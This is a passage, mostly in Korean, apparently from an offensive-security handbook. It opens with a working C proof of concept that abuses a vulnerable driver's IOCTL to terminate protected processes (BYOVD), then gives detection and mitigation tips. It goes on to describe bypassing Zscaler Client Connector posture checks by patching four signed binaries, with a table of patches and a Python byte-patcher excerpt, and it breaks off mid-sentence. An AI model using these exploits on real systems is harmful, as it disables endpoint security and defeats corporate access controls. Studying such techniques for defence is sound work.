Minimal C proof-of-concept:
```c
#include <windows.h>

int main(int argc, char **argv){
DWORD pid = strtoul(argv[1], NULL, 10);
HANDLE hDrv = CreateFileA("\\\\.\\ServiceMouse", GENERIC_READ|GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
DeviceIoControl(hDrv, 0x99000050, &pid, sizeof(pid), NULL, 0, NULL, NULL);
CloseHandle(hDrv);
return 0;
}
```
4. **작동 원리**: BYOVD는 유저모드 보호를 완전히 우회합니다; 커널에서 실행되는 코드는 *보호된* 프로세스를 열거나 종료하고 PPL/PP, ELAM 또는 기타 하드닝 기능에 상관없이 커널 객체를 조작할 수 있습니다.

Detection / Mitigation
•  Microsoft의 취약 드라이버 차단 목록(`HVCI`, `Smart App Control`)을 활성화하여 Windows가 `AToolsKrnl64.sys`를 로드하지 못하도록 합니다.  
•  새로운 *커널* 서비스 생성 모니터링을 수행하고 드라이버가 전 세계 쓰기 가능한 디렉터리에서 로드되거나 허용 목록에 없는 경우 경고를 발생시킵니다.  
•  사용자 모드에서 커스텀 디바이스 객체에 대한 핸들이 생성된 후 의심스러운 `DeviceIoControl` 호출이 발생하는지 감시합니다.

### Bypassing Zscaler Client Connector Posture Checks via On-Disk Binary Patching

Zscaler의 **Client Connector**는 장치 posture 규칙을 로컬에서 적용하고 결과를 다른 구성요소에 전달하기 위해 Windows RPC를 사용합니다. 두 가지 약한 설계 선택으로 인해 완전한 우회가 가능합니다:

1. Posture 평가는 **전적으로 클라이언트 측에서** 이루어집니다(서버로는 boolean 값만 전송됨).  
2. 내부 RPC 엔드포인트는 연결하는 실행 파일이 **Zscaler에 의해 서명되었는지**(`WinVerifyTrust`를 통해)만 검증합니다.

디스크 상의 서명된 4개 바이너리를 패치함으로써 두 메커니즘을 모두 무력화할 수 있습니다:

| Binary | Original logic patched | Result |
|--------|------------------------|---------|
| `ZSATrayManager.exe` | `devicePostureCheck() → return 0/1` | 항상 `1`을 반환하도록 변경되어 모든 검사에서 compliant로 처리됨 |
| `ZSAService.exe` | `WinVerifyTrust`에 대한 간접 호출 | NOP 처리 ⇒ 어떤 프로세스(심지어 서명되지 않은 것)도 RPC 파이프에 바인딩 가능 |
| `ZSATrayHelper.dll` | `verifyZSAServiceFileSignature()` | `mov eax,1 ; ret`로 대체 |
| `ZSATunnel.exe` | 터널에 대한 무결성 검사 | 단락 처리되어 우회됨 |

Minimal patcher excerpt:
```python
pattern = bytes.fromhex("44 89 AC 24 80 02 00 00")
replacement = bytes.fromhex("C6 84 24 80 02 00 00 01")  # force result = 1

with open("ZSATrayManager.exe", "r+b") as f:
data = f.read()
off = data.find(pattern)
if off == -1:
print("pattern not found")
else:
f.seek(off)
f.write(replacement)
```
원본 파일들을 교체하고 서비스 스택을 재시작한 후:
